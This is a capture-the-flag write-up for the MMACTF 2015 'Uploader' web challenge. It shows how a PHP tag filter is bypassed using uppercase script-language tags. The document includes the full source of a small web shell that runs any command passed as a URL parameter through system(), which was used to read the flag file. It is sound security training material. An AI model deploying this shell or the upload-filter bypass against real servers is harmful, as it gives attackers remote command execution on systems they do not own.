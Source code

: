 # Uploader (Web, 100pts)

---

## Problem

This uploader deletes all /<\?|php/. So you cannot run php.

http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)

You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.

## Solution

Web page contains only one simple upload form:

![Uploader task]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader1.png)

Each file is accesible after uploading, so we can try to upload some simple shell to find the flag, which should be placed somewhere on the server.

As we can't use regular PHP script tags, so we have to find another way to upload PHP shell and execute it.
We can use _script_ tag with language set to PHP (we are using uppercases here as lower cases are deleted):
	
```html
<!-- 
file: blade.php
https://github.com/bl4de/ctf/blob/master/MMACTF_2015/blade.php
-->

<form action="" method="get"><textarea name="c" rows="10" cols="80">
	<script language="PHP"> 
		if (isset($_GET['c'])) {echo $_GET['c'];}
	</script>
</textarea><button type="submit">go</button></form><hr /><div><p>Result of <strong>
	<script language="PHP"> 
		if(isset($_GET['c'])){echo $_GET['c'];}
	</script>
</strong></p><pre>

<script language="PHP"> 
	$output="";if (isset($_GET['c'])){$output=@system($_GET['c']);};
</script>
</pre>
</div>	
```

This won't work in the future versions of PHP, as from PHP 7 ASP tags and _script_ tags will be removed.


After uploading the shell, let's take a look around:

![ls -lA executed in /]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader2.png)

We can see file named _flag_ in the root directory of the server.

We can execute _cat flag_ command via the shell and catch the flag:

![Flag]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader3.png)


## Links

http://php.net/manual/en/language.basic-syntax.phptags.php

